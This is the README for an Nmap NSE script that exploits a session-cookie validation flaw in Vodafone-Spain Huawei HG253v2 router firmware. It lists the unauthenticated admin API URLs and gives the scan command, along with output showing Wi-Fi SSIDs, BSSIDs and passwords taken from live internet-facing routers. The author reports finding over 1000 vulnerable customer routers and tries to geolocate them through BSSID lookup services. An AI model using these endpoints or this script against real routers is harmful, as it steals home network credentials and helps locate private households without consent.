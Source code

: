 # http-enum-vodafone-hua253s.nse

### Introduction

Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.

### The pre-scholar bug

![Logo](img/prescholar.gif)

I found a new simple security bug in that new firmware version. It is so easy to see it that I named it "the Pre-scholar bug". Basically, it is not validating the session cookie in some administration webpages:

 - http://\<IP\>/html_253s/api/ntwk/WlanBasic
 - http://\<IP\>/html_253s/api/system/diagnose_internet
 - http://\<IP\>/html_253s/api/system/hostinfo?type=ethhost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=guesthost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=homehost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=wifihost
 - http://\<IP\>/html_253s/api/system/wizardcfg

So, It is possible to get direct information from those urls in any router open to internet.

### About the NSE script

This is a Nmap NSE script to search Vodafone-Spain Huawei 253s_v2 router with the port 80/tcp and/or 443/tcp open to Internet (via this new bug).

The script will try to get the SSID, BSSID, key-type and Password of the wifi network interface.

It was tested with:

  - HW: AV1HG253SBZDM
  - Firmware: V100R001C205B038SP0x (being x a number)

Command line and result:

```
nmap -sS -p80,443 -script http-enum-vodafone-hua253s.nse x.x.x.*

Nmap scan report for xxxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.091s latency).
PORT    STATE SERVICE
80/tcp  open  http
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX
443/tcp open  https
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

```

### Scope

I have checked the Spanish Vodafone network trying to guess what the real scope is and I found >1000 routers with the "correct" brand, open port to internet and the bug working.

### Experiments

After speaking to a friend of mine, I was trying to geolocate this routers using Google geolocate API and the found BSSID. But it was not possible. The spanish BSSID (MAC address) database by google seems very poor. All my tries got a "Not found" answer :,(

Using other IP location services was worse. They are completely inaccurate.

I tried it with https://wigle.net/ and it is working but its API is very limited. I wrote to the wigle's owner but he wanted bread... so, you only can shoot to five or six bssid per day in that webpage :(

### Notes

 - Sorry for my ugly English.
 - Oldschool is alive.
